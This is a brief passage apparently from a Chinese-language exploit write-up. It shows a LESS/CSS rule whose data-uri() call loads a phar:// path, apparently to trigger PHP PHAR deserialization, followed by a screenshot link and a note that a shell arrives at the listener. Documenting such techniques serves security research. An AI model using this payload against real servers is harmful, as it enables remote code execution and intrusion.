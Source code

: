 ```bash
.test {
  content: data-uri("phar://./assets/forum.css");
}
```

[![](assets/1706846898-7a781acede5728fa713b697b3f93b5ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131213929-28771070-c03e-1.png)

在监听处可收到 Shell
